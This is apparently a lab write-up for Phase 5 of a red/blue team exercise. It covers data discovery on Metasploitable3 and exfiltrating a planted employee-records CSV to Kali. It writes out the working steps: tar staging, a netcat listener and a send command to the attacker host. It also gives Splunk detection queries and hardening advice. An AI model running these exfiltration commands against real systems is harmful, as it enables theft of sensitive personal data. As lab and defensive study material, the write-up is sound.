



# Phase 5: Data Exfiltration

**Goal:** Find and exfiltrate the goods (sensitive employee data on Metasploitable3) back to Kali.

---

## Red Team

### Starting Position

- Shell on: Metasploitable3 (`192.168.200.10`) as `root`
- Target file: `/opt/corpnet/finance/employee_records.csv`
- Exfil destination: Kali (`192.168.100.10`)

---

### Step 1: Data Discovery

```bash
find / -name "*.csv" 2>/dev/null
```

The search returned Ruby gem fixture files and one sensitive file planted in Phase 0:

```
/opt/corpnet/finance/employee_records.csv
```

```bash
cat /opt/corpnet/finance/employee_records.csv
```

**Contents:**
```
Name,Department,Salary,SSN
John Smith,Engineering,95000,123-45-6789
Sarah Lee,Finance,88000,987-65-4321
Mike Torres,HR,720000,555-12-3456
```



---

### Step 2: Staging

Compressed the entire finance directory into a tar archive before transfer:

```bash
tar czf /tmp/exfil.tar.gz /opt/corpnet/finance/
ls -lh /tmp/exfil.tar.gz
# -rw-r--r-- 1 root root 287 Apr  19:44 /tmp/exfil.tar.gz
```

---

### Step 3: Exfiltration

**Method:** Netcat. Metasploitable3 can reach Kali directly via Ubuntu.

```bash
# On Kali — listener
nc -lvnp 6666 > ~/Desktop/exfil.tar.gz

# On Metasploitable3 — send
nc 192.168.100.10 6666 < /tmp/exfil.tar.gz
```

**Verified archive contents on Kali:**

```bash
tar tzf ~/Desktop/exfil.tar.gz
```



**Extracted and confirmed data:**

```bash
tar xzf ~/Desktop/exfil.tar.gz -C ~/Desktop/
cat ~/Desktop/opt/corpnet/finance/employee_records.csv
```



---

## Blue Team: What Splunk Saw

### Detection Queries

```
index=* src_ip=192.168.200.10
| stats sum(bytes) as total_bytes by dest_ip
| where total_bytes > 10000
```

```
index=* sourcetype=syslog "/opt/corpnet"
```

```
index=* sourcetype=syslog ("nc" OR "netcat") src_ip=192.168.200.10
```

### What Fired

If auditd was configured with file access rules on `/opt/corpnet/`, the `cat` and `tar` operations against the sensitive path would have generated audit events. The `find` sweep over the entire filesystem is also a notable pattern — a root-level process scanning every directory in seconds is anomalous for a web server.

### What Was Missed

Netcat transfers over raw TCP are unencrypted but have no application-layer protocol — no HTTP/FTP headers to identify the session as data exfiltration. Without a network DLP solution doing byte-count analysis on unexpected outbound flows, or NetFlow correlation flagging Metasploitable3 talking directly to Kali, this transfer was invisible to Splunk.

---

## Final Assessment

### Attack Chain Summary

| Phase | Technique | Success |
|---|---|---|
| Recon | Nmap full port scan + Gobuster directory brute force | Yes |
| Initial Access | DVWA file upload → PHP web shell → reverse shell | Yes |
| Privilege Escalation | SUID `find` binary → root on Ubuntu | Yes |
| Lateral Movement | SSH tunnel → ProFTPD modcopy → PwnKit → root on Metasploitable3 | Yes |
| Exfiltration | tar + netcat → employee_records.csv received on Kali | Yes |

### Blue Team Score

| Phase | Detected? | Notes |
|---|---|---|
| Recon | Partially | Port scan visible via port-hit rate query; SYN scan leaves no app-layer log |
| Initial Access | Partially | Apache logs show upload + `.php` execution pattern; outbound reverse shell not captured |
| Privilege Escalation | Missed | SUID abuse requires auditd; failed `su` attempts visible but not alerting |
| Lateral Movement | Partially | SSH session logged on Ubuntu; tunnel content opaque; ProFTPD/PwnKit activity on internal segment not forwarded |
| Exfiltration | Missed | Raw netcat transfer has no application-layer signature; no DLP or NetFlow analysis in place |

### What I'd Do Differently (Defense)

1. **Enable auditd on both Ubuntu and Metasploitable3** — process-level logging catches SUID abuse, shell spawns, and file access to sensitive paths that syslog never sees. A rule on `/opt/corpnet` reads would have flagged the exfil prep immediately.
2. **Restrict SUID binaries** — audit with `find / -perm -4000 -type f` and remove SUID from anything that doesn't strictly require it. `find`, `vim`, and interpreters have no business running as root.
3. **Deploy NetFlow or a network DLP collector** — raw byte-count anomalies on unexpected ports between internal hosts and attacker IPs would have caught the netcat exfil that produced zero application-layer logs.

---

## Key Takeaways

- **Attackers only need one path.** Every phase required working around a constraint — no direct route, no root, unpatched services — but each obstacle had a bypass. Defense requires closing all of them simultaneously; offense only needs one to remain open.
- **Encryption hides lateral movement.** SSH tunneling made the Metasploitable3 exploitation invisible to network-level monitoring. Once an attacker has SSH access to a pivot host, the internal network is effectively open to traffic that looks like normal SSH sessions.

---

← [Phase 4 — Lateral Movement](phase4-lateral-movement.md)
